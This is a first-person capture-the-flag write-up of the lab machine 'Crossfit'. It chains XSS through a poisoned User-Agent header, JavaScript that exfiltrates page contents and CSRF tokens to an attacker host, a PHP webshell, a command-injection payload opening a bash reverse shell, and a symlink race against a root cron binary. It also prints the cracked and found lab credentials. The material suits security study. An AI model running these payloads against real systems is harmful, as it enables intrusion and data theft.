

# Crossfit

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.221.128
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-10 05:59 EDT
Warning: 10.129.221.128 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.221.128
Host is up (0.0085s latency).
Not shown: 63082 closed tcp ports (conn-refused), 2450 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Detailed scan:

```
$ nmap -p 21,80 -sC -sV --min-rate 3000 10.129.221.128
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-10 07:44 EDT
Nmap scan report for 10.129.221.128
Host is up (0.011s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=*.crossfit.htb/organizationName=Cross Fit Ltd./stateOrProvinceName=NY/countryName=US
| Not valid before: 2020-04-30T19:16:46
|_Not valid after:  3991-08-16T19:16:46
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: Host: Cross
```

Added `crossfit.htb` to my `/etc/hosts` file. Also noted that the cert name had a wildcard, meaning there is possibly multiple subdomains. 

### SSL Enumeration -> Subdomain

The web page did not load anything useful, so I turned to enumerating the SSL cert for FTP. Using `openssl`, I can connect to this certificate and find the email address associated with it:

```
$ openssl s_client -connect crossfit.htb:21 -starttls ftp
CONNECTED(00000003)
depth=0 C = US, ST = NY, O = Cross Fit Ltd., CN = *.crossfit.htb, emailAddress = info@gym-club.crossfit.htb
verify error:num=18:self-signed certificate
verify return:1
depth=0 C = US, ST = NY, O = Cross Fit Ltd., CN = *.crossfit.htb, emailAddress = info@gym-club.crossfit.htb
verify return:1
<TRUNCATED>
```

`gym-club.crossfit.htb` is the next step. 

### Web Enum -> XSS

The website was a fitness and sport promoting one:


This was PHP based, and there were quite a few functionalities in this. There was some countdown and subscribe function, which sent a POST request with any email:


I could leave a comment on some posts:


When I posted this comment, this message appeared:


So our comment was being evaluated by a moderator, meaning someone was viewing it! This opens XSS up as a potential first vulnerability. 

I sent this payload in :

```html
<script>document.location="http://10.10.14.13/hiiamxss"</script>
```

This returned something...interesting:


There's a WAF blocking our request, and it takes note of our IP address and browser information. I also did not get the callback. 

I tried to bypass this WAF, but nothing got me a callback. I thought about it, and perhaps I was **supposed** to trigger this error.

It's quite odd that the website tells me exactly what it is going to send to the security team. Browser information is normally present within the `User-Agent` header.

As such, I tried poisoning that header with an XSS payload, and triggering the security warning by sending a `<script>` tag.

```http
POST /blog-single.php HTTP/1.1
Host: gym-club.crossfit.htb
User-Agent: <script>document.location="http://10.10.14.13/hiiamxss"</script>

name=Test&email=test%40gmail.com&phone=test&message=<script>&submit=submit
```

This triggered the bug again, but this time I was able to get a callback:


Using this knowledge, automating this step is rather easy.

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
URL = 'http://gym-club.crossfit.htb'

headers = {
	'User-Agent':'<script>document.location="http://10.10.14.13/hiiamxss"</script>'
}

data = {
	'name':'Test',
	'email':'test@test.com',
	'phone':'test',
	'message':'<script>',
	'submit':'submit'
}

r = requests.post(URL + '/blog-single.php', data=data, headers=headers, verify=False, proxies=proxies)
```

### CORS(?) -> Subdomain Fuzzing

Using this, I was able to inject payload. However, I was unable to steal any cookies, nor was I able to view anything that was interesting.

I noticed that within these requests, the `Access-Control-Allow-Credentials` header was set to `true`.


This means that the browser includes credentials, which includes cookies and whatever authentication headers are being used. This gave me an idea to try using CORS to find what other subdomains are present on this machine. 

Using this, and the XSS I had, I constructed a quick script to test subdomains reachable via XSS, and then steal the page contents.

```js
fetch('http://fake.crossfit.htb')
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000/exfil', {
      method: "POST",
      body: html,
    })
  });
```

So the above takes a fake subdomain, and then attempts to fetch it. Retrieving a legit domain results in a page being stolen like so:


I noted that this was being visited by `report.php`. As such, I can start brute forcing this thing using a Python server that accepts POST requests and outputs them to `stdout`.

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs

class MyRequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        params = parse_qs(post_data.decode('utf-8'))

        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()

        # Print the received parameters
        for key, values in params.items():
            if 'zxx' in values:
                break
            print(f"{key}: {values}")

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, MyRequestHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()

# used python3 server.py > output.txt 
# because i was lazy
```

The `zxx` check is there because I noticed a lot of the results returned that, and it was for the default Apache page.

Here's my Javascript file:

```js
var scriptSrc = document.currentScript.src;
var url = new URL(scriptSrc);
var customSubdomain = url.searchParams.get('fuzz');
fetch('http://' + customSubdomain + '.crossfit.htb')
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000/exfil', {
      method: "POST",
      body: html,
    })
  });
```

And lastly, the payload script:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
URL = 'http://gym-club.crossfit.htb'

wordlist = open('/usr/share/seclists/Discovery/Web-Content/common.txt', 'r')

for line in wordlist:
	sub = line.strip('\n')
	payload = f'''<script src="http://10.10.14.13/steal.js?fuzz={sub}"></script>'''

	headers = {
		'User-Agent':payload
	}
	data = {
		'name':'Test',
		'email':'test@test.com',
		'phone':'test',
		'message':'<script>',
		'submit':'submit'
	}

	r = requests.post(URL + '/blog-single.php', data=data, headers=headers, verify=False, proxies=proxies)
```

Eventually, this output something interesting:


It seems there's an FTP Account Manager on the website.

### XSS + CSRF -> FTP Account

I was able to view the new account page by visiting `http://ftp.crossfit.htb/accounts/create`. Here's the form required:

```html
<form action="http://ftp.crossfit.htb/accounts" method="POST">
        <input type="hidden" name="_token" value="faHOJSGw0YBdz99DqXMC3U1FvAnp0zWRVMkPzlT4">
         <div class="row">
            <div class="col-xs-12 col-sm-12 col-md-12">
                <div class="form-group">
                    <strong>Username:</strong>
                    <input type="text" name="username" class="form-control" placeholder="Username">
                </div>
            </div>
            <div class="col-xs-12 col-sm-12 col-md-12">
                <div class="form-group">
                    <strong>Password:</strong>
                    <input type="password" name="pass" class="form-control" placeholder="Password">
                </div>
            </div>
            <div class="col-xs-12 col-sm-12 col-md-12 text-center">
                    <button type="submit" class="btn btn-primary">Submit</button>
            </div>
        </div>
        </form>
```

So to create a new account, I just have to create some POST parameters using a username and password of my choosing.

```js
var params = {
  _token:'faHOJSGw0YBdz99DqXMC3U1FvAnp0zWRVMkPzlT4',
  username:'testuser123',
  password:'testuser123'
}

var formData = new URLSearchParams();
for (var key in params) {
  formData.append(key, params[key]);
}

fetch('http://ftp.crossfit.htb/accounts/create')
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://ftp.crossfit.htb/accounts/create', {
      method: "POST",
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
      },
      body:formData,
    });

    fetch('http://10.10.14.13:8000/sentpost!', {
      method:"POST",
    })
  });
```

The above doesn't work in registering an account, and I think it is due to the `_token` variable changing each time I use `fetch`. This CSRF token has to be retrieved in the **same session**.

Here's the updated exploit code:

```js
fetch('http://ftp.crossfit.htb/accounts/create', {
  credentials: 'include'
})
  .then(resp => resp.text())
  .then(html => { 
    var parser = new DOMParser();
    var doc = parser.parseFromString(html, 'text/html');
    var csrfTokenElement = doc.querySelector('input[name="_token"]');
    var csrfToken = csrfTokenElement ? csrfTokenElement.value : null;

    fetch('http://10.10.14.13:8000', {
      method: 'POST',
      credentials: 'include', 
      body: html,
    });

    if (csrfToken) {
      fetch('http://ftp.crossfit.htb/accounts', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded',
        },
        credentials: 'include', 
        body: new URLSearchParams({
          _token: csrfToken,
          username: 'test123',
          pass: 'Password123!',
        }),
      })
      .then(response => response.text())
      .then(html => {
        return fetch('http://10.10.14.13:8000', {
          method: 'POST',
          credentials: 'include', 
          body: html,
        });
      });
    } else {
      fetch('http://10.10.14.13:8000/nocookie', {
        method: 'POST',
        credentials: 'include', 
      })
    }
  })
```

Setting `credentials` to `include` means I use the same session for everything. When this is run, the response tells me it worked:


Using this, I can now login and  enumerate the FTP server:


### FTP Write -> Webshell

From the above image, I can only write to `development-test`. This directory also includes all of the other web applications, and they are all in PHP. I cannot reach `development-test` from my machine, so I probably gotta use the XSS + CSRF exploit.

I tried uploading a PHP webshell which worked:

```
lftp test123@ftp.crossfit.htb:/development-test> put cmd.php
34 bytes transferred
```

Afterwards, I can execute commands via the webshell, and return that response to my HTTP server.

```js
fetch('http://development-test.crossfit.htb/cmd.php?cmd=id', {
  credentials: 'include'
})
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000', {
      method: 'POST',
      credentials: 'include',
      body: html,
    });
  })
```


Finally. The `cmd.php` shell is cleared pretty fast, but getting a reverse shell from here is trivial and fast. I had to use a PHP reverse shell in the end for some reason.


## Privilege Escalation

### Ansible Playbooks -> User Password

I ran `linpeas.sh`, and it picked up on a few interesting things:


There's a cronjob by the user `isaac`, but I cannot read the PHP files so I won't worry about that yet. 

At the very bottom of the output are these 2 hashes:

```
/etc/ansible/playbooks/adduser_hank.yml:$6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/                                          
/var/www/ftp/database/factories/UserFactory.php:$2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi
```

There is a `hank` user on this box:;

```
www-data@crossfit:/dev/shm$ ls -la /home
total 16                           
drwxr-xr-x  4 root  root  4096 Sep 21  2020 .   
drwxr-xr-x 18 root  root  4096 Sep  2  2020 ..
drwxr-xr-x  6 hank  hank  4096 Sep 21  2020 hank
drwxr-xr-x  7 isaac isaac 4096 Sep 21  2020 isaac
```

It can be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
powerpuffgirls   (?)     
1g 0:00:00:07 DONE (2024-03-10 12:37) 0.1335g/s 3178p/s 3178c/s 3178C/s tajmahal..231990
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I can then `su` to `hank`:


### Admins Group + Cronjob + SQL Creds

`hank` is part of the `admins` group. Earlier, I saw a cronjob running a script from `isaac` directory, and conveniently the directory is owned by the `admin` group:

```
hank@crossfit:/home/isaac$ ls -l
total 4
drwxr-x--- 4 isaac admins 4096 May  9  2020 send_updates
```

Here's the contents of the `send_updates.php` script:

```php
<?php
/***************************************************
 * Send email updates to users in the mailing list *
 ***************************************************/
require("vendor/autoload.php");
require("includes/functions.php");
require("includes/db.php");
require("includes/config.php");
use mikehaertl\shellcommand\Command;

if($conn)
{
    $fs_iterator = new FilesystemIterator($msg_dir);

    foreach ($fs_iterator as $file_info)
    {
        if($file_info->isFile())
        {
            $full_path = $file_info->getPathname(); 
            $res = $conn->query('SELECT email FROM users');
            while($row = $res->fetch_array(MYSQLI_ASSOC))
            {
                $command = new Command('/usr/bin/mail');
                $command->addArg('-s', 'CrossFit Club Newsletter', $escape=true);
                $command->addArg($row['email'], $escape=true);

                $msg = file_get_contents($full_path);
                $command->setStdIn('test');
                $command->execute();
            }
        }
        unlink($full_path);
    }
}

cleanup();
?>
```

The script runs every time there's a new file within a `msg_dir` variable. The most interesting part was the dependency used:

```
use mikehaertl\shellcommand\Command;

$ cat composer.json 
{
    "require": {
        "mikehaertl/php-shellcommand": "1.6.0"
    }
}
```

This particular version had RCE exploits for it:



The `addArg` function does not escape all arguments. However, I would need to have direct access to the database to exploit this, which I do not right now.

As such, I took a look around the machine, and found some FTP stuff:

```
hank@crossfit:/srv$ ls
ftp
```

This was running `vsftpd`, so I checked the `/etc` folder, and found some interesting details within `/etc/vsftpd/user_conf`:

```
hank@crossfit:/etc/vsftpd/user_conf$ cat ftpadm 
local_root=/srv/ftp
guest_username=ftpadm
```

I searched for all `vsftpd` files:

```
hank@crossfit:/etc$ find . -type f -name "*vsftpd*"
./logrotate.d/vsftpd
./vsftpd.conf.orig
find: ‘./ssl/private’: Permission denied
./pam.d/vsftpd.orig
./pam.d/vsftpd
./vsftpd.conf
./init.d/vsftp
```

Reading one of the files gives me FTP creds:

```
hank@crossfit:/etc$ cat pam.d/vsftpd
auth sufficient pam_mysql.so user=ftpadm passwd=8W)}gpRJvAmnb host=localhost db=ftphosting table=accounts usercolumn=username passwdcolumn=pass crypt=3
account sufficient pam_mysql.so user=ftpadm passwd=8W)}gpRJvAmnb host=localhost db=ftphosting table=accounts usercolumn=username passwdcolumn=pass crypt=3
```

These creds work:


And it brought me to the `messages` directory, and this is probably tied to the `msg_dir` variable I found earlier.

I thought of the script itself, and wondered where did I encounter emails at, and realised that way earlier in the box, there was a "Subscribe" option asking for emails.

Within the `/var/www/gym-club` file, there was a `jointheclub.php` script:

```
hank@crossfit:/var/www/gym-club$ ls
about-us.php     css            gallery.php  jointheclub.php  schedule.php
blog.php         db.php         images       js               security_threat
blog-single.php  fonts          img          main.html        vendor
contact.php      functions.php  index.php    readme.txt
```

Here's the code for it:

```php
<?php
require("db.php");
if(!empty($_POST['email']))
{
    $email = $_POST['email'];
    if(filter_var($email, FILTER_VALIDATE_EMAIL))
    {
        if(strlen($email) > 320)
        {
            echo "<p><h4 class='text text-warning'>Email address is too long.</h4></p>";
        }
        else
        {
            if($conn)
            {
                $sql = "SELECT * FROM users WHERE email=?";
                $stmt = $conn->prepare($sql);
                $stmt->bind_param("s", $email);
                $stmt->execute();
                $result = $stmt->get_result();
                $nrows = mysqli_num_rows($result);
                if(!$result)
                {
                    echo "<p><h4 class='text text-warning'>Database error.</h4></p>";
                }
                else if(mysqli_num_rows($result) > 0)
                {
                    echo "<p><h4 class='text text-warning'>Email address already registered.</h4></p>";
                }
                else
                {
                    $sql2 = "INSERT INTO users (email) VALUES (?)";
                    $stmt2 = $conn->prepare($sql2);
                    $stmt2->bind_param("s", $email);
                    if($stmt2->execute())
                    {
                        echo "<p><h4 class='text text-warning'>Thank you for subscribing!</h4></p>";
                    }
                    else
                    {
                        echo "<p><h4 class='text text-warning'>Unexpected error.</h4></p>";
                    }
                }

            }
        }
    }
    else
    {
        echo "<p><h4 class='text text-warning'>Invalid email address.</h4></p>";
    }
}
?>
```

`db.php` contained some credentials too:

```php
<?php
$dbhost = "localhost";
$dbuser = "crossfit";
$dbpass = "oeLoo~y2baeni";
$db = "crossfit";
$conn = new mysqli($dbhost, $dbuser, $dbpass, $db);
?>
```

There's only one check for input, and its this line:

```php
if(filter_var($email, FILTER_VALIDATE_EMAIL))
```

I logged into the database, and found that there wasn't any `emails` table:

```
MariaDB [crossfit]> show tables;
+--------------------+
| Tables_in_crossfit |
+--------------------+
| messages           |
| roles              |
| security_report    |
| trainers           |
| users              |
+--------------------+
5 rows in set (0.001 sec)
```

So to trigger the script and the exploit, I have to upload a file via FTP, and have a malicious email payload to get a shell as `isaac`.

### Isaac RCE

From the Github issues, the RCE payload is `--wrong-argument || COMMAND`.



From this, I inserted a `email` column into the `users` table with a payload, since its contents is part of the command passed to `addArg`:

```sql
INSERT INTO users(email) VALUES ('--wrong-arg || bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"');
```

Afterwards, I need to upload any file via FTP This is because the `send_update.php` file runs on detecting new files. Putting a new file within the `messages` directory triggers the payload:


### Basic Enum -> Ghidra RE

I ran `pspy64` and `linpeas.sh` to enumerate stuff as this user, and was initially particularly interested in the `staff` group.

I checked both `./pspy64` and `./pspy64 -f` to monitor for file events.

There was something running `dash`:

```
2024/03/10 14:20:21 FS:        CLOSE_NOWRITE | /usr/bin/bash
```

I monitored stuff running within `/bin` and `/usr/bin`. 

```
$ ./pspy64 -f -r /bin -r /usr/bin
2024/03/10 14:24:01 FS:                 OPEN | /usr/bin/dash
2024/03/10 14:24:01 FS:               ACCESS | /usr/bin/dash
2024/03/10 14:24:01 FS:                 OPEN | /usr/bin/dbmsg
```

There was `dbmsg` binary, which I could not find on my own machine, meaning it is not a default one.

Here's some basic information about it:

```
isaac@crossfit:~$ ls -la /usr/bin/dbmsg
-rwxr-xr-x 1 root root 19008 May 13  2020 /usr/bin/dbmsg

isaac@crossfit:~$ file /usr/bin/dbmsg
/usr/bin/dbmsg: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2f0bc3cfa6ec6a297f58ae75f8802bd1b5ef7162, not stripped

isaac@crossfit:~$ /usr/bin/dbmsg                                          
This program must be run as root.
```

Downloaded this back to my machine, and opened it up in `ghidra`.

The `main` functions checks if the user running is `root`:


This calls `process_data()` after `srand`, which does some stuff with the MySQL database:

The `process_data()` function did somet unique stuff, in which it took all the stuff from the `messages` table and stored it within a variable:


It then opens a `.zip` file and creates a new file for each entry in `/var/local`:


The name of each file s rather unique. It is `local_98`, and it is the random number generated from `main()` and the first column, which is MD5 hashed together.

The file is then dumped into `/var/local`. Afterwards, this new file is added to the`comments.zip` file. 


Afterwards, the file in `/var/local` is deleted, and the database entry is removed.

This binary is **always run as root** and it creates files with MD5 hashes as their name. The `srand` number can be brute forced if given enough hashes. I already have database control, and `root` is writing to files. If I can guess the right hash, then I can create a symbolic link (with the same name) directed at `/root/.ssh/authorized_keys`.

Based on the hash generation, this script runs every minute or so, and I can control what is in the database. As such, generating the hash is easy since the random number (based on time) will eventually be right if I run it infinitely, and the database entry is controlld by me.

So to exploit this, I have to:

* Write a small random number generator based on the time.

* Insert an entry into the database with my public SSH key.

* Create a `bash` script that loops forever, generating random numbers and hashing it to create new files within `/var/local`.

* Each file created must be a symlink pointing to `/root/.ssh/authorized_keys`.

### Root Shell

Here's the script for generating random numbers based on time:

```c
$ cat exp.c 
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(void)
{
    srand(time(0));
    printf("%d", rand());

    return 0;
}
```

This has to be compiled on the machine itself. From the binary, the `messages` table has 4 columns: `id`, `name`, `email` and `message`. The `id` can be fixed at `1`, and the rest of the fields would be my public SSH key.

Here's the one-liner to put a database entry:

```bash
mysql -h localhost -u crossfit -poeLoo~y2baeni -Dcrossfit -e'insert into messages (id, name, email, message) values (123, "ssh-ed25519", "kali@kali", "AAAAC3NzaC1lZDI1NTE5AAAAIPGjC0f5ZIEHnUQHy/0PQuQFo+QIlPnFUsnyooVvCH5R");'
```

Then, here's the `bash` loop to infinitely generate symlinks:

```bash
while true; do ln -s /root/.ssh/authorized_keys /var/local/$(echo -n $(./exploit)123 | md5sum | cut -d " " -f 1) 2>/dev/null; done
```

When the loop is running, it generates a lot of files within the `/var/local` file:



And every single one points to the `root` directory:


While it was running, I just kept trying to `ssh` in as `root` using the private key. Again, this works because eventually the right number and hence MD5 hash is created.

After a while, it worked!


Rooted!

## Scripts Used

Just to recap:

* The Pyhton POST server was used to receive POST requests from the XSS.
* Another Python script was used for delivering my XSS payload, and I varied the Javascript file executed.
* One Javascript payload was used for enumerating subdomains, thus accepting a `fuzz` parameter.
* The other Javascript payload was used for creating a new account with the same session (`credentials` set to `include`).
* The last script was to trigger the `cmd.php` shell.

### Python POST Server

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs

class MyRequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        params = parse_qs(post_data.decode('utf-8'))

        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()

        for key, values in params.items():
            if 'zxx' in values:
                break
            print(f"{key}: {values}")

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, MyRequestHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

### XSS Payload Delivery

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
URL = 'http://gym-club.crossfit.htb'

wordlist = open('/usr/share/seclists/Discovery/Web-Content/common.txt', 'r')
# for line in wordlist:
#     sub = line.strip('\n')
payload = f'''<script src="http://10.10.14.13/rce.js"></script>'''

headers = {
        'User-Agent':payload
}
data = {
        'name':'Test',
        'email':'test@test.com',
        'phone':'test',
        'message':'<script>',
        'submit':'submit'
}

r = requests.post(URL + '/blog-single.php', data=data, headers=headers, verify=False, proxies=proxies)
```

### Fuzzing

```js
var scriptSrc = document.currentScript.src;
var url = new URL(scriptSrc);
var customSubdomain = url.searchParams.get('fuzz');
fetch('http://' + customSubdomain + '.crossfit.htb')
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000/exfil', {
      method: "POST",
      body: html,
    })
  });
```

### Account Creation 

```js
fetch('http://ftp.crossfit.htb/accounts/create', {
  credentials: 'include'
})
  .then(resp => resp.text())
  .then(html => { 
    var parser = new DOMParser();
    var doc = parser.parseFromString(html, 'text/html');
    var csrfTokenElement = doc.querySelector('input[name="_token"]');
    var csrfToken = csrfTokenElement ? csrfTokenElement.value : null;

    fetch('http://10.10.14.13:8000', {
      method: 'POST',
      credentials: 'include', 
      body: html,
    });

    if (csrfToken) {
      fetch('http://ftp.crossfit.htb/accounts', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded',
        },
        credentials: 'include', 
        body: new URLSearchParams({
          _token: csrfToken,
          username: 'test123',
          pass: 'Password123!',
        }),
      })
      .then(response => response.text())
      .then(html => {
        return fetch('http://10.10.14.13:8000', {
          method: 'POST',
          credentials: 'include', 
          body: html,
        });
      });
    } else {
      fetch('http://10.10.14.13:8000/nocookie', {
        method: 'POST',
        credentials: 'include', 
      })
    }
  }) 
```

### RCE

```js
fetch('http://development-test.crossfit.htb/cmd.php?cmd=id', {
  credentials: 'include'
})
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000', {
      method: 'POST',
      credentials: 'include',
      body: html,
    });
  }) 
```